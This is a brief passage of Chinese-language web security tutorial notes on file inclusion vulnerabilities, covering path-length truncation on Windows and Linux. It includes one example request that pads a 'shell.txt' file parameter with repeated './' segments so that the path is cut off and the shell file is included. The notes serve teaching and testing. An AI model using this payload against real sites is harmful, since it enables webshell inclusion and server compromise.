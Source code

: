 ![image-20240130134435362](08.文件包含漏洞/image-20240130134435362.png)

## 路径长度截断
Windows 下目录最大长度为 256 字节，超出的部分会被丢弃
Linux 下目录最大长度为 4096 字节，超出的部分会被丢弃
```php
/test.php?file=shell.txt/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```
